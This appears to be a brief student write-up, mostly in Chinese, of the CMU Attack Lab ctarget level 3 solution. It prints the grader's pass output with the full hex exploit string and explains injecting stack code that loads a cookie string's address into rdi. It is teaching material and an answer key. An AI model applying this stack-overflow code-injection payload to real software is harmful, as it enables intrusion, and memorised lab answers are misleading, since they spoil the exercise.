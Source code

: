 ## attachlab ctarget q3

```
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 B8 DC 61 55 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00                                      00 00 00 00 00 00 78 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00 00 00 00 00 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00
[Inferior 1 (process 1577) exited normally]

```

这个任务是传递一个字符串使得等于cookie，还是按照之前的做饭，先通过stackoverflow，将返回值覆盖成一个栈上的位置，然后在这个栈上的位置执行movq addr, $rdi

这个addr就是存访cookie的位置，但是需要自己手动构造一个cookie的值，然后把地址赋值给rdi，这个地址其实就是栈上某个位置，对应于我的解答中的35 39 62 这部分，这部分不能放置在高地址的部分(比如直接跟在55 c3 后)，因为rsp会通过一些其他函数操作覆盖，所以我开了更多的溢出区，把他放到了不会被其他程序覆盖的地方。
